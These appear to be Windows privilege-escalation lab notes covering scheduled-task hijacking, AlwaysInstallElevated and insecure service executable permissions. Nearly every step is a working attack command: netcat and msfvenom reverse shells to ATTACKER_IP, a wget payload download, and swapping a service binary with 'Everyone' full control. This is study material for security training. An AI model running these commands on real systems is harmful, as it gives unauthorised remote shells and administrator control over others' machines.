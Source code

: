 `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

then on attacking PC:

`nc -lvp 4444`

### AlwaysInstallElevated

* Windows installer files (.msi files) are used to install applications on the system.
* To be able to exploit this vulnerability, both should be set.
* `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
* `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
* If these are set, you can generate a malicious .msi file:
* `msfvenom -p windows/x64/shell_reverse_tcp`
* `LHOST=ATTACKING_10.10.153.40 LPORT=LOCAL_PORT -f msi -o malicious.msi`

## Abusing Service Misconfigurations

### Windows Services

Windows services are managed by the Service Control Manager (SCM).

`sc qc apphostsvc`

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\:`

#### Insecure Permissions on Service Executable

**Splinterware System Scheduler:**

`C:\> sc qc WindowsScheduler`

We then proceed to check the permissions on the executable: `icacls`

Let's generate an exe-service payload using msfvenom and serve it through a python webserver:

**Kali Linux**

* `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
* `python3 -m http.server`

**Power Shell**

* `wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`
* `cd C:\PROGRA~2\SYSTEM~1\`
* `move WService.exe WService.exe.bkp`
* `move C:\Users\thm-unpriv\rev-svc.exe WService.exe`
* `icacls WService.exe /grant Everyone:F`

**Kali Linux**

* `nc -lvp 4445`

**Power Shell** sc (Set-Content)

* `sc stop windowsscheduler`
* `sc start windowsscheduler`
